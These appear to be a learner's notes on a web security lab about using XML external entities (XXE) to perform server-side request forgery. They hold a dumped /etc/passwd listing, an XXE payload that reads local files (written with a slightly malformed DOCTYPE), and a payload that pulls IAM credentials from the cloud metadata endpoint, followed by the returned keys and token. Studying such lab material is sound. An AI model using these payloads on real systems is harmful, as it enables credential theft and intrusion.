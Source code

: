 ```
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,


...and more
```

# Lab: Exploiting XXE to perform SSRF attacks #

(SSRF= Server Site Request Forgery)

He is explaining that sometimes with a simple scan we cannot find some opened ports

This is a SSRF what he is showing on the diagram

![[Screenshot_2023-08-26_11_24_36.png]]


"SYSTEM" charges an external entity that we can acces, it can be http or file, etc..
```
<!DOCTYPE foo | [<!ENTITY xxe SYSTEM "file://etc/passwd">]>
```

This is what we are doing right now on this lab, this diagram explains it (its a XXE+SSRF)

![[Screenshot_2023-08-26_11_32_06.png]]
So we did this
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>
&xxe;
</productId><storeId>1</storeId></stockCheck>
```

And we found this
```
Code" : "Success",
  "LastUpdated" : "2023-08-26T15:33:43.550101652Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "8S9FVaXWoSbmulKMPhX8",
  "SecretAccessKey" : "0IC5ubCGV9nlzGBWKyVsqtGlTgpKvYaSUvnq4M2S",
  "Token" : "UZuPYNplpVDZFDCcv99hi4Ku6bw6RcqaORtEoH6dtwAAxrddmAZYvAg4UpNOjJbNhiuMxqeCipmPpSBNxq7rDbN9FNxHXTQKgYObx04HBjwvwFgENqW3FbXNhAlQLOU012eBz6m7F5RjFBmSavomdCKfeftIbMQKzYmMquEJmXX8XPq0eMRjA7NgqsL7VZqpUXOFjnide4YqmULaJsgM7Sxu1SSn3JnbW5t6cDhtj8bWwfbwUKBVOaiW8wQVXXpy",
  "Expiration" : "2029-08-24T15:33:43.550101652Z"
```
